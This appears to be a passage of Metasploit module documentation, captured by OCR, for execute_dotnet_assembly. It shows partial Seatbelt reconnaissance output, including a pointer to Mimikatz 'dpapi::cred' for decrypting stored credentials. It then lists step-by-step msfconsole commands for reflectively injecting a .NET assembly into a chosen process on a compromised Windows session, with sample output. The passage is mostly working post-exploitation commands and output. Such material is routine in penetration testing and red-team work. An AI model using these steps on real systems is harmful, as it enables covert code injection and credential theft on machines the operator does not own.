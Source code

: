 ```
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_dotnet_assembly) >
```

  Example 2 PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_dotnet_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set PID 8648```
  7. Do: ```set ASSEMBLYPATH /your/output/folder/SeatBelt.exe```
  8. Do: ```set ARGUMENTS user```
  9. Do: ```run```
  10. You should get something like that follow

```
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Warning: output unavailable
[*] Hooking 8648 to host CLR...
[+] Process 8648 hooked.
[*] Reflectively injecting the Host DLL into 8648..
[*] Injecting Host into 8648...
[*] Host injected. Copy assembly into 8648...
[*] Assembly copied.
[*] Executing...
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_dotnet_assembly) >
```
